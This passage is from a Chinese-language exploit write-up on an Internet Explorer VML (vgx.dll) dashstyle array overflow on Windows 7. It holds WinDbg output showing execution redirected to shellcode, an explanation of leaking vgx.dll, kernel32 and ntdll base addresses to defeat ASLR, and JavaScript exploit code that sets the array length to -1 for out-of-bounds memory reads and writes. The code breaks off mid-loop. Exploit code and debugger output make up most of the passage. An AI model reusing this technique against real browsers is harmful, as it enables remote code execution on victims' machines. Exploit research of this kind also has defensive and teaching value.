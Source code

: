 	05ac92d4 00000040 0480125c 0000008a 04856000

	05ac92e4 00010400 048563b4 00000000 7dafed29

	05ac92f4 880097d8 6d7f5504 05a7f958 00000001

	05ac9304 00000000 7dafed16 8800ed54 6d7f5504

	05ac9314 05a7fa38 00000001 00000000 7dafed13

	05ac9324 88000000 6d7f5504 05a7fb18 00000001

	05ac9334 00000000 7dafed10 880098da 6d7f5504

	0:005> p

	WARNING: Stack pointer is outside the normal stack bounds. Stack unwinding can
	be inaccurate.

	eax=00000000 ebx=04801268 ecx=05ac92c0 edx=776a70b4 esi=048563b4 edi=776a5f18

	eip=048563b4 esp=05ac92dc ebp=ffffffff iopl=0 nv up ei pl nz ac po cy

	cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000213

	048563b4 33c9 xor ecx,ecx

	WARNING: Stack pointer is outside the normal stack bounds. Stack unwinding can
	be inaccurate.

### **另一种泄露基址**

就像我前面遇到的问题一样，如果win7打过补丁之后，0x7ffe0300不再是固定地址，这样就不能再用上面的方法来泄露出ntdll的基址，这里看到了另一位大佬的文章，用了另一种方法<https://www.4hou.com/technology/4241.html>

具体的操作还是通过溢出泄露vgx.dll的某个指针然后根据固定偏移泄露出vgx.dll的基址，然后再找到vgx与kernel32.dll的偏移计算出kernel32.dll的基址，最后再利用kernel32.dll的基址算出ntdll.dll的基址。这里的偏移计算可以用CFF_Expler来查找。

具体代码：

	var length_orig = vml1.dashstyle.array.length;

	vml1.dashstyle.array.length = 0 - 1;

	for (var i=0; i<0x400; i++) {

		a[i].marginLeft = "Khwarezmia";

		marginLeftAddress = vml1.dashstyle.array.item(0x2e+0x16);

		if (marginLeftAddress > 0) {

			/////////////////////////////////////////////////////////

			//offset to PE

			vml1.dashstyle.array.item(0x2e+0x16) = baseOfVGX + 0x3c;

			var leak = a[i].marginLeft;

			pe_offset = parseInt(leak.charCodeAt(0).toString(16), 16);

			//find import directory
